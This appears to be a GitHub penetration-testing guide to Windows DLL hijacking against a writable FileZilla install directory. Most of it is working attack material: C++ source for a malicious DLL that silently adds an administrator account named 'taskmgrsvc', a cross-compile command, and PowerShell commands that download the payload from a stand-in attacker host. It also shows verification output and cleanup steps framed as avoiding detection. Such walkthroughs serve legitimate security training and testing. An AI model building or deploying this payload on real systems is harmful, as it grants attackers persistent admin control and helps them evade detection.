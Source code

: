 ## DLL Hijacking

### Overview
Dynamic Link Libraries (DLLs) are essential components in Windows systems that provide shared functionality for applications and services. When an application or service looks for a required DLL, it follows a predefined **DLL search order**:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories listed in the PATH environment variable.

A misconfiguration or missing DLL can create an opportunity for **DLL Hijacking**, where a malicious DLL placed in a writable directory is loaded instead of the legitimate one. If the application runs with elevated privileges, the malicious DLL will execute with the same level of access.

---

### Step 1: Identify Writable Directories and Missing DLLs
First, identify directories where you have write permissions and locate missing DLLs being searched for by applications or services.

1. **Search for Writable Directories**:
   Run **WinRecon.ps1** to enumerate writable directories and check for vulnerable DLLs:
   - **Option 2**: Run Custom Recon - (Select which functions to enable).
   - **Option 18**: Perform DLL Hijacking checks against known vulnerable software and directories.

Example Output:

![image](https://github.com/user-attachments/assets/6639ec58-b090-4e72-9af0-687bc28daaa4)
![image](https://github.com/user-attachments/assets/475bbb6b-f128-4c6f-bf3f-b4c71f199678)


In this example, the `FileZilla` application directory is writable, and the program attempts to load `TextShaping.dll`, making it a potential candidate for DLL hijacking.

---

### Step 2: Confirm Writable Permissions
Verify that the identified directory allows you to write files:

```powershell
echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'
```

Check if the file was successfully created:
```powershell
type 'C:\FileZilla\FileZilla FTP Client\test.txt'
```

If successful, you have sufficient permissions to place a malicious DLL in this directory.

---

### Step 3: Create a Malicious DLL
The goal is to create a DLL that executes malicious commands when loaded. In this case, the DLL will add a new user to the local Administrators group.

#### Malicious DLL Code in C++:
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
            system("net user taskmgrsvc Password123! /add");
            system("net localgroup administrators taskmgrsvc /add");
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

#### Compile the DLL:
On your Kali machine, cross-compile the DLL using `mingw-w64`:

```bash
x86_64-w64-mingw32-gcc malicious_dll.cpp --shared -o TextShaping.dll
```

- **`--shared`**: Generates a DLL file.
- **`TextShaping.dll`**: The name must match the vulnerable DLL identified earlier.

---

### Step 4: Transfer the DLL to the Target Directory
Host the DLL on your attacker machine and download it to the writable directory on the target system:

1. Start a Python HTTP server:
   ```bash
   python3 -m http.server 80
   ```
2. On the target system, download the DLL using PowerShell:
   ```powershell
   iwr -uri http://<attacker_ip>/TextShaping.dll -OutFile 'TextShaping.dll'
   ```
   ```powershell
   powershell.exe -Command "(New-Object System.Net.WebClient).DownloadFile('http://<attacker_ip>/TextShaping.dll', 'TextShaping.dll')"
   ```
3. Move File
   ```powershell
   move TextShaping.dll 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```
4. Confirm the file exists:
   ```powershell
   ls 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```

---

### Step 5: Trigger the DLL Hijacking
The DLL hijacking will occur when a higher-privileged user or system process runs the application. For example, when the `FileZilla` application is executed by an administrator or another user with elevated permissions, the malicious DLL will be loaded from the writable directory.

Wait for the application to be executed by someone with higher privileges.

---

### Step 6: Verify Exploitation
After the DLL executes, verify that the new user has been created and added to the Administrators group:

1. Check for the new user:
   ```powershell
   net user
   ```
2. Verify the Administrators group:
   ```powershell
   net localgroup administrators
   ```

**Output**:
```plaintext
User accounts for \TARGETSYSTEM
-------------------------------------------------------------------------------
Administrator            taskmgrsvc              DefaultAccount

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that the malicious DLL was loaded, and the `taskmgrsvc` account was successfully added to the Administrators group.

---

### Cleanup
To avoid detection, clean up after exploitation:

1. Delete the malicious DLL:
   ```powershell
   del 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```
2. Remove the created user:
   ```powershell
   net user taskmgrsvc /delete
   ```

---

### Notes:
- Missing DLLs provide a great opportunity for code execution, especially if the search order allows loading from writable directories.
- Always verify writable permissions before deploying malicious DLLs.

---

### References
- [HackTricks - DLL Hijacking](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)

---
